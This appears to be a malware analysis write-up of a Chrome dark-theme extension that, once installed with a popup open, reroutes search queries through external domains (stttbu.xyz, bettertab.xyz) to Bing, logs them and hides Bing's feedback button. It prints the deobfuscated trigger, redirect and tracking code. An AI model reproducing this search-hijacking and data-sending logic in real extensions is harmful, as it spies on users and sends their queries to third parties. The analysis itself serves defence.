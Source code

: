 # Code Analysis
After dissecting the Obfuscated javascript code we learn the following: 
apart from using the setLight and stopLight messages between the background.js and the content.js to switch between the background color to either black or original, the extension can do a few extra things which all depend on one API call, the “chrome.runtime.onInstalled”:
```javascript
chrome.runtime.onInstalled.addListener(function (e) {
	if("install" === e.reason)
		chrome.windows.getAll({populate: !0}, (tabs) => {
			var t;
			for (let j= 0; j <= tabs.length - 1; j++)
				tabs[j].type.includes(cobal("peachpuff", 5, 7)) &&
				(eu(), setTimeout(function () {
						darkerput(1800);
						chrome.tabs.create({url: "https://hjk7.xyz/ty?id=" + exid.split("").reverse().join("")})
						chrome.windows.remove(tabs[j].id, function () {
						});
					}, 1e3)
				)
		}), fetch(ty);
});
```
This will trigger the full capability of this extension. To better understand this, let's break down the call into a few key points:

1.	onInstalled.addListener sets up an event listener that triggers when the extension is either installed or updated, the if(“install” == e.reason) means the following will trigger only for when the extension is first installed.

2.	Chrome.windows.getAll - This line retrieves data from all open windows and their tabs.

3.	tabs[j].type.includes(cobal("peachpuff", 5, 7)) && - this condition will determine if the extension will run maliciously or not, since it has a &&, for the next few functions to run, this condition needs to be met.

  	cobal() is a string manipulation function, which with the provided string, it comes out as ‘pu’, tabs.type is the type of tab you have open, it can only be a few options: normal, popup, panel, app and devtools. 

**This means that for the extension to reveal its true behavior, a popup window needs to be open during the installation process.** 

# No Popup
When no popup windows are present, the extension will skip over the eu(), darkerput() and the tab creation and removal seen above. Because of that, the “initial” value which is stored inside the chrome.storage will not be defined as “default”:
![image](https://github.com/user-attachments/assets/a0ec0ef4-054e-45f6-bae8-8d3f5857ff98)

This means the variable “i” will remain undefined since “initial” != “default”:
```javascript
chrome.storage.local.get(["initalcolor"], function (s) {
	if (s.color === "default")
		i = true
});
```
leading to skipping the entire 370 lines of code after this “if” condition which is un-met:
```javascript
if (i == !0 && s == !1 && "loading" === tab.status && !colchk(cobal("Bhaclebstoc blue", 5, 10)))
```
This part of the code after the "if" condition, is in charge of the malicious activities it can preform, without it the extension performs like any other simple dark theme extension.

# With Popup
If one of the tabs is considered a popup, the rest of the code under the runtime.onInstalled runs: 

•	The function eu() is triggered, setting i = true, which will allow the code within the chrome.tabs.onUpdated.addListener (containing the if condition above)  
to be executed later.

•	A new tab is opened with the URL contructed by reversing the ‘exid’ meaning: 
```https://hjk7.xyz/ty?id=mhfalkcmmkajgecgcnaceipcoenh```

•	The tab containing the popup will close

•	The fetch command will trigger a request being made for an external domain.

From this point the following behavior can be seen when using a search engine: 

1.	Typing something in the search engine like google will trigger the chrome.tabs.onUpdated:
```javascript
chrome.tabs.onUpdated.addListener(function (tabid, status, tab) {
	tu = tab.url, colchk(exid) && !colchk("errors") && colos(tabid)
	function rgbConverthsl({ h, s, l, a = 1 }) {
		if (s === 0) {
			const [r, b, g] = [l, l, l].map((x) => Math.round(x * 255));
			return { r, g, b, a };
		}
```
2. 	The URL is checked if it contains the ‘exid’ and ‘errors’ strings, if it contains the ‘exid’ and not the ‘errors’, the tab will close (using the colos() function).

3.	It passes through the “if” condition we’ve talked about earlier (since “i” is now defined)
 

4.	The payload containing the search query is saved inside the “c” variable

5.	A new tab is opened and redirected to ```https://stttbu.xyz/ssc/pda?p={added payload}```
essentially meaning it uses a GET request to transfer my search query to an external domain

6.	We are then being redirected to this URL - ```https://www.bettertab.xyz/searchapi/redirect.aspx?q={added payload}&channel=2188
&pid=bbtab```

7.	To then being redirected a final time to bing.com - ```https://www.bing.com/search?q={added payload}```

8.	Once the process is finished, the original tab with the initial query for google.com is closed. (the entire process takes about 1.5-2 seconds)

9.	Before completing its process, it also creates an array using the “c” variable to store all the payloads we've inputted (essentially tracking my activity). Here’s an example after numerous searches:

![image](https://github.com/user-attachments/assets/33d8ab14-7822-4cef-8d81-9e85b0edfec3)

10. Last thing to mention besides the different delays it’s invoking, the extension sends the setLight message:  setTimeout(()=>chrome.tabs.sendMessage(e.id, {setLight: 1}), 5e3).
Inside the content.js it triggers the continueSetLight function: 
```javascript
function darkSet(request, sender, sendResponse) {
	if(request.setLight)
		continueSetLight(request, sender, sendResponse);
	if (request.stoplight) {
```
```javascript
function continueSetLight(request, sender, sendResponse) {
	document.getElementById('bg') && (document.getElementById('sb_feedback').style.backgroundColor = 'white')
	document.getElementById('bg') && (document.getElementById('bg').style.backgroundColor = 'white')
	document.getElementById('sb') && (document.getElementById('sb').style.backgroundColor = 'white')
	document.getElementById('fg') && (document.getElementById('fg').style.backgroundColor = 'white')
	document.getElementById('sb_feedback') && (document.getElementById('sb_feedback').style.display = 'none')
}
```
Besides enabling "Light Mode" and changing the background color of several DOM elements to white, it also hides the 'sb_feedback' element, which conceals a button on the bing.com page:

![image](https://github.com/user-attachments/assets/01912aa4-efb4-4315-850f-9802b074d39a)

![image](https://github.com/user-attachments/assets/e8a44342-3019-490d-9f3c-b30ed473d90b)

![image](https://github.com/user-attachments/assets/6b12edd3-3b24-4299-a587-9b314f9b612f)


# Example Process

1. ![image](https://github.com/user-attachments/assets/b9c59b22-94b9-4f7e-b92f-6d7ec25bbfca) searching something on Google
2. ![image](https://github.com/user-attachments/assets/90924973-1277-4644-9fe9-2d23647a99a8) new tab creation
3. ![image](https://github.com/user-attachments/assets/0c1432a5-e9df-43c4-8a55-4324d78031a5) Redirection 1
4. ![image](https://github.com/user-attachments/assets/5fcb1d71-f9e3-4f8d-8c65-fa1a32d72f4c) Redirection 2














